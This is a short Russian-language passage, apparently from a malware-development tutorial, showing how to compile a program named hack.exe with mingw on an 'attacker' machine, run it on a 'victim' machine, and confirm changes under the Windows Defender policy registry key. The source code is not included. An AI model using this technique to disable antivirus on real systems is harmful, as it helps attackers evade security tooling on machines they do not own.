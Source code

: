 ![av](./images/57/2022-06-05_12-15.png){width="80%"}    

Как видите, у нас стандартные ключи реестра.   

Теперь скомпилируем наш скрипт на машине атакующего:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av](./images/57/2022-06-05_12-03.png){width="80%"}    

И запустим его на машине жертвы:

```powershell
.\hack.exe
```

![av](./images/57/2022-06-05_12-17.png){width="80%"}    

Согласно логике программы, компьютер выключается. Затем включаем его снова и проверяем:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```
